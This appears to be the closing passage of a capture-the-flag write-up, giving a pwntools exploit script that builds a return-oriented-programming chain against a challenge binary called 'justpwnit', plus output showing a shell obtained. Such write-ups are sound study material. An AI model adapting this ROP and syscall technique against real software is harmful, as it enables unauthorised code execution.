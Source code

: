 ``` python
pop_rsi = pwn.p64(0x4019a3)
pop_rdx = pwn.p64(0x403d23)
mov_rax_rdi_addr = pwn.p64(0x401ce7)
syscall = pwn.p64(0x4013e9)

# Payload
pld = zero + pop_rdi + writeable_addr + pop_rax + shell_string + mov_rax_rdi_addr + pop_rax + syscall_num + pop_rsi + zero + pop_rdx + zero + syscall

# Creates process, sends payload, and switches to interactive mode
def ptools():
    p = pwn.process("./justpwnit")
    p.sendline('-2')
    p.sendline(pld)
    p.clean()
    p.interactive()

# Writes payload to file "exp"
def write_to_exp():
    with open("exp", "wb") as f:
        f.write(b"-2\n")
        f.write(pld)

# Runs GDB with pwntools
def p_debug():
    p = pwn.process("./justpwnit")
    pwn.gdb.attach(p)
    p.sendline('-2')
    p.sendline(pld)

# No arguments runs the exploit and switches to interactive
# -g runs the process with gdb 
# Any other argument will write the payload to the file "exp"
if len(sys.argv) > 1:
    if sys.argv[1] == '-g':
        p_debug()
    else:
        write_to_exp()
else:
    ptools()
```

Here is the exploit getting shell:
``` 
 python3 ./exploit.py 
[+] Starting local process './justpwnit': pid 6741
./exploit.py:33: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline('-2')
[*] Switching to interactive mode
$ echo hi
hi
$  
```

## Author: Joaquin Frommer